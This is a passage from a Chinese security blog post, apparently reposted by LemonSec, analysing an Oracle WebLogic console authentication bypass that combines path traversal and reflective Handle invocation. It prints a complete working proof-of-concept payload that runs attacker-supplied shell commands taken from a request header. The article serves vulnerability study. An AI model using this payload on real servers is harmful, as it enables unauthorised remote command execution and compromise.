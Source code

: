 **0x03 漏洞利用**
=============

经过 0x02 的分析，我们不难看出该漏洞和其他传统的越权漏洞是有很大区别的：

1.  所谓的认证绕过是通过请求原本无需认证的资源路径
    
2.  在 1 的基础上利用`../`造成目录穿越，使`Netuix`在初始化语法树时读取对应的后台模板文件
    
3.  在`Netuix`生命周期中通过组件对应的处理流程触发`Handle`流程
    
4.  组件处理流程中会将请求中以`handle`结尾的参数的值作为参数传入`HandleFactory#getHandle`方法中，完成反射调用
    

所以利用方式也显而易见，这里利用 @77ca1k1k1 的 poc 做展示：

![](https://mmbiz.qpic.cn/mmbiz_jpg/La0UYqKZf7dGoM7hCTN6zUib5q8L6EEGFib2FwIacBfzkVNWdnfKqXVNUHTh6haicJsbBLiaQ7yRnFJkC61Znszvqw/640?wx_fmt=jpeg)

poc：

```
com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')
```

**0x04 Reference**  

=====================

```
https://docs.oracle.com/cd/E13218_01/wlp/docs81/whitepapers/netix/body.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**